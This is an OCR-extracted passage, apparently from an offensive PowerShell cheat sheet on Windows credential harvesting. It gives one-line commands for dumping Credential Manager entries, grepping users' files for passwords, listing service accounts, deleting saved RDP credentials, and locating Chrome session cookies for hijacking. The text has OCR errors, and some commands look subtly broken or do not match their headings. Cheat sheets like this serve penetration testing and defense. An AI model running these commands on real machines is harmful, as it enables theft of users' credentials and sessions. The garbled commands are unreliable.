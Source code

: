 ```powershell
$credman = New-Object -TypeName PSCredentialManager.Credential; $credman | Where-Object { $_.Type -eq
'Generic' } | Select-Object -Property UserName, Password
```

### Retrieving Passwords from Unsecured Files

Searches for the term ‘password’ in all text les within the Documents folders of all users, which can reveal passwords stored insecurely.

```powershell
Select-String -Path C:\Users\*\Documents\*.txt -Pattern 'password' -CaseSensitive
```

### Dumping Credentials from Windows Services

Lists Windows services that are running under a specic user account, which can sometimes include
credentials in the service conguration.

```powershell
Get-WmiObject win32_service | Where-Object {$_.StartName -like '*@*'} | Select-Object Name, StartName,DisplayName
```

### Extracting Saved RDP Credentials

Lists and deletes saved Remote Desktop Protocol (RDP) credentials, which can be used to access remote systems.

```powershell
cmdkey /list | Select-String 'Target: TERMSRV' | ForEach-Object { cmdkey /delete:($_ -split ' ')[-1] }
```

### Retrieving Browser Cookies for Credential Theft

Accesses the Chrome browser’s Cookies le, which can contain session cookies that might be exploited for session hijacking.

```powershell
$env:USERPROFILE + '\AppData\Local\Google\Chrome\User Data\Default\Cookies' | Get-Item
```

### Extracting Credentials from IIS Application Pools

Retrieves conguration details of IIS Application Pools, including service accounts, which might contain credentials.

```powershell
Import-Module WebAdministration; Get-IISAppPool | Select-Object Name, ProcessModel
````

### Reading Credentials from Configuration Files

Searches for strings containing ‘password=’ in all .cong les on the C: drive, which can reveal hardcodedcode credentials.
